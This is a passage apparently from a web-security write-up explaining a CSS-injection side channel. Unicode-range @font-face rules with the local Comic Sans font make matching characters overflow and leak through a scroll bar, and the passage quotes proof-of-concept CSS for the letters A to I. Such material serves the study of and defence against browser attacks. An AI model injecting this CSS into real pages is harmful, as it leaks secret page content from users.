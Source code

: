 ```
> Basically, the **unicode-range is used to detect a char**, but as we don't want to load an external font, we need to find another way.\
> When the **char** is **found**, it's **given** the pre-installed **Comic Sans font**, which **makes** the char **bigger** and **triggers a scroll bar** which will **leak the found char**.

Check the code extracted from the PoC:

```css
/* comic sans is high (lol) and causes a vertical overflow */
@font-face {
  font-family: has_A;
  src: local("Comic Sans MS");
  unicode-range: U+41;
  font-style: monospace;
}
@font-face {
  font-family: has_B;
  src: local("Comic Sans MS");
  unicode-range: U+42;
  font-style: monospace;
}
@font-face {
  font-family: has_C;
  src: local("Comic Sans MS");
  unicode-range: U+43;
  font-style: monospace;
}
@font-face {
  font-family: has_D;
  src: local("Comic Sans MS");
  unicode-range: U+44;
  font-style: monospace;
}
@font-face {
  font-family: has_E;
  src: local("Comic Sans MS");
  unicode-range: U+45;
  font-style: monospace;
}
@font-face {
  font-family: has_F;
  src: local("Comic Sans MS");
  unicode-range: U+46;
  font-style: monospace;
}
@font-face {
  font-family: has_G;
  src: local("Comic Sans MS");
  unicode-range: U+47;
  font-style: monospace;
}
@font-face {
  font-family: has_H;
  src: local("Comic Sans MS");
  unicode-range: U+48;
  font-style: monospace;
}
@font-face {
  font-family: has_I;
  src: local("Comic Sans MS");
  unicode-range: U+49;
  font-style: monospace;
}
```